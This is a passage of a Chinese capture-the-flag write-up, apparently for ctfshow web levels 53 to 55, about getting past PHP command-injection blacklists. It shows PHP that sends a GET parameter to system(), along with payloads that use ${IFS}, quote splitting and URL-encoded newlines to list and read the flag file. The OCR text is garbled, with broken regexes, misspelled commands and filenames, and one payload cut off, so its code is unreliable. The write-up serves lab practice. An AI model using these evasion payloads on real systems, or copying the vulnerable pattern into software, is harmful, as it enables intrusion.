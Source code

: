 c=nl${IFS}fla''g%0a
web53
php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;catflag [0-9]morewgetlessheadsorttailsedcuttacawkstringsodcurl`%x09x26i, $c)){
        echo($c);
        $d = system($c);
        echo br.$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
也没多过滤啥。。

c=ls%0a得到

ls flag.php index.php readflag
readflag 
payload

c=ls%0a
c=nlfla''g.php%0a
web54~binat 绕过
php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;.c.a.t..f.l.a.g. [0-9].m.o.r.e..w.g.e.t..l.e.s.s..h.e.a.d..s.o.r.t..t.a.i.l..s.e.d..c.u.t..t.a.c..a.w.k..s.t.r.i.n.g.s..o.d..c.u.r.l..n.l..s.c.p..r.m.`%x09x26i, $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
多过滤了一些查看文件指令。

payload

c=paste${IFS}fla.php%0a

c=binat${IFS}fag.php%0a

c=binat${IFS}f
web55~过滤所有小写字母
php

 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;[a-z]`%x09x26i, $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
直接过滤了所有小写字母！！！。
